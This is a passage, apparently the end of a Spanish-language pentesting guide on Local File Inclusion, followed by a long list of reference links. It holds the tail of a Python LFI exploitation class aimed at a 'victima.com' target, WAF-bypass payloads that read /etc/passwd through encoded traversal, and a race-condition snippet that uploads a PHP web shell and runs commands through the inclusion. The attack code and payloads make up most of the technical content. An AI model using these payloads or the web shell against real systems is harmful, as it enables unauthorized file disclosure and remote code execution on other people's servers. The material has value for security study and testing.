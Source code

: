 ```python
  
        total_vulns = sum(len(v) if isinstance(v, list) else 1 if v else 0 for v in results.values())
        print(f"[*] Escaneo completado. Encontradas {total_vulns} vulnerabilidades LFI")
  
        return results

# Uso del explotador
if __name__ == "__main__":
    # Configurar objetivo
    target_url = "https://victima.com/vulnerable.php"
    param_name = "file"
  
    exploiter = LFIExploiter(target_url, param_name)
    vulnerabilities = exploiter.comprehensive_scan()
  
    # Generar reporte
    import json
    with open('lfi_report.json', 'w') as f:
        json.dump(vulnerabilities, f, indent=2)
  
    print("[*] Reporte guardado en lfi_report.json")
```

## Explotación/Automatización

### Técnicas de Bypass WAF[^14]

**Case variation:**

```http
# Alternar mayúsculas/minúsculas
file=..%2F..%2F..%2FetC%2FpaSSwd

# Mezclar encoding
file=%2E%2E%2f%2E%2E%2f%2E%2E%2fetc%2fpasswd
```

**Fragmentación de payloads:**

```python
# Dividir payload en múltiples parámetros
payload1 = "../../../"
payload2 = "etc/passwd"
url = f"?part1={payload1}&part2={payload2}"
```

### Condiciones de Carrera[^15]

Explotar ventanas temporales entre subida y validación:

```python
import threading
import requests

def race_lfi_rce(upload_url, lfi_url):
    def upload_shell():
        files = {'file': ('shell.php', '<?php system($_GET["c"]); ?>', 'text/plain')}
        requests.post(upload_url, files=files)
  
    def execute_shell():
        time.sleep(0.01)  # Timing crítico
        response = requests.get(f"{lfi_url}?file=uploads/shell.php&c=id")
        return 'uid=' in response.text
  
```

[^1]: https://virtualcyberlabs.com/local-file-inclusion-lfi/
[^2]: https://atlansec.es/blog/posts/06-04-2025/
[^3]: https://www.invicti.com/learn/local-file-inclusion-lfi/
[^4]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_File_Inclusion
[^5]: https://www.offsec.com/metasploit-unleashed/file-inclusion-vulnerabilities/
[^6]: https://www.hackplayers.com/2018/12/race-condition-phpinfo-mas-lfi-rce.html
[^7]: https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition
[^8]: https://www.fastly.com/blog/back-to-basics-directory-traversal
[^9]: https://www.invicti.com/learn/directory-traversal-path-traversal/
[^10]: https://www.invicti.com/blog/web-security/php-stream-wrappers/
[^11]: https://infosecwriteups.com/rce-via-lfi-oscp-tactics-for-code-execution-and-gaining-a-foothold-on-a-system-b35d0655f3c7
[^12]: https://nsfocusglobal.com/path-traversal-attack-protection/
[^13]: https://www.slideshare.net/slideshow/waf-bypassing-techniques/64302972
[^14]: https://bugbase.ai/blog/top-10-ways-to-bypass-waf
[^15]: https://bogner.sh/2018/04/race-to-rce-there-is-more-on-the-web-than-just-xss/
[^16]: https://github.com/topics/lfi-detection?o=asc\&s=updated
[^17]: https://www.acunetix.com/vulnerability-scanner/lfi-vulnerability-scanner/
[^18]: https://stackoverflow.com/questions/64088681/how-to-test-and-exploit-lfi-vulnerabilities
[^19]: https://www.brightsec.com/blog/lfi-attack-real-life-attacks-and-attack-examples/
[^20]: https://www.avertium.com/flash-notices/wordpress-review-plugin-local-file-inclusion
[^21]: https://support.polarisec.com/en/docs/general-knowledge/lfi-and-rfi-attacks/
[^22]: https://github.com/advisories/GHSA-qq86-38fr-rcf3
[^23]: https://nvd.nist.gov/vuln/detail/CVE-2025-49138
[^24]: https://github.com/advisories/GHSA-p75g-cxfj-7wrx
[^25]: https://www.cvedetails.com/cve/CVE-2025-51057/
[^26]: https://owasp.org/www-community/attacks/Path_Traversal
[^27]: https://www.exploit-db.com/exploits/52125
[^28]: https://portswigger.net/web-security/file-path-traversal
[^29]: https://www.riskinsight-wavestone.com/en/2022/09/barbhack-2022-leveraging-php-local-file-inclusion-to-achieve-universal-rce/
[^30]: https://nvd.nist.gov/vuln/detail/CVE-2025-26905
[^31]: https://techbrunch.github.io/patt-mkdocs/Directory Traversal/
[^32]: https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-2/
[^33]: https://www.cve.org/cverecord?id=CVE-2025-0632
[^34]: https://www.aikido.dev/blog/path-traversal-in-2024-the-year-unpacked
[^35]: https://patchstack.com/articles/critical-lfi-to-rce-vulnerability-in-wp-ghost-plugin-affecting-200k-sites/
[^36]: https://wpscan.com/vulnerability/7570bd32-f660-44e7-abc6-5d4ea369fe30/
[^37]: https://advisories.checkpoint.com/defense/advisories/public/2024/cpai-2024-0395.html/
[^38]: https://deephacking.tech/php-wrappers-pentesting-web/
[^39]: https://www.cobalt.io/blog/a-pentesters-guide-to-file-inclusion
[^40]: https://brightsec.com/blog/local-file-inclusion-lfi/
[^41]: https://4geeks.com/lesson/local-file-inclusion-remote-file-inclusion
[^42]: https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass
[^43]: https://github.com/topics/lfi-scanner
[^44]: https://www.yeswehack.com/learn-bug-bounty/practical-guide-path-traversal-attacks
[^45]: https://medium.verylazytech.com/enhancing-your-understanding-of-local-file-inclusion-lfi-35a26f9efadd
[^46]: https://code.google.com/archive/p/teenage-mutant-ninja-turtles/wikis/AdvancedObfuscationPathtraversal.wiki
[^47]: https://fluidattacks.com/es/advisories/silva
[^48]: https://hackmd.io/@Solderet/list/%2FgZFHwwuQQo6ya_Q6ULYrdA
[^49]: https://www.scribd.com/document/857621425/Advanced-LFI-Bypass-Techniques
[^50]: https://gynvael.coldwind.pl/?id=418
[^51]: https://waf-bypass.com/2025/03/page/2/
[^52]: https://help.fortinet.com/fweb/605/Content/FortiWeb/fortiweb-admin/web_protection.htm
[^53]: https://www.youtube.com/watch?v=5g137gsB9Wk
[^54]: https://infosecwriteups.com/️-how-to-bypass-web-application-firewalls-wafs-8346e6e79dd3
[^55]: https://github.com/SpiderLabs/owasp-modsecurity-crs/issues/783
[^56]: https://waf-bypass.com/2025/05/